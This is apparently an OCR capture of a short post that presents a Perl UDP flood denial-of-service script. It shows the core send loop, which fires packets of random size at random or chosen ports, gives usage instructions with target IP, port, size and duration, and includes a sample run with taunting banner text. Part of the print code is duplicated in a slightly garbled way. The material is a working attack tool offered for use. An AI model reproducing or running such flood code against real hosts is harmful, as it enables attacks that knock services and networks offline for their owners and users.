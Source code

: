               #            #        #              #          #    #     # #
        #############      #      ############    #            #   #      ##

        EOTEXT

         print           "                        YouTube.com/ZendranQs $ip
                    On port " .
                ($port ? $port : "random") ." ".($time ? "for $time seconds" : "
        Talk shit get Hit. ") . "\n";
                ($port ? $port : "random") ." ".($time ? "for $time seconds" : "
        Talk shit get FaRted On. ") . "\n";
                print "Stop DoSing with Ctrl-C\n" unless $time;

        for (;time() <= $endtime;) {
          $psize = $size ? $size : int(rand(1024-64)+64) ;
          $pport = $port ? $port : int(rand(65500))+1;

          send(flood, pack("a$psize","flood"), 0, pack_sockaddr_in($pport,
        $iaddr));}

This just sends messages with random size to the target, a really simple DoS tool.
[www.tutorialspoint.com/perl/perl_send.htm](www.tutorialspoint.com/perl/perl_send.htm)

Usage is pretty simple, first argument is the IP, second the port (can be left blank for random port), 3rd the message size (can be left blank) and the 4th for the time (how long this will be run, can be left blank). Running it:

        $ ./iyzan.pl 127.0.0.1 80
        #############   #     #   ############          ##         #       #
              #          #   #              #          #  #        # #     #
              #           # #             #           #    #       #  #    #
              #            #            #            ########      #   #   #
              #            #          #             #        #     #    #  #
              #            #        #              #          #    #     # #
        #############      #      ############    #            #   #      ##

                                  YouTube.com/ZendranQs 127.0.0.1
                                On port 80
        Talk shit get Hit.
        Stop DoSing with Ctrl-C
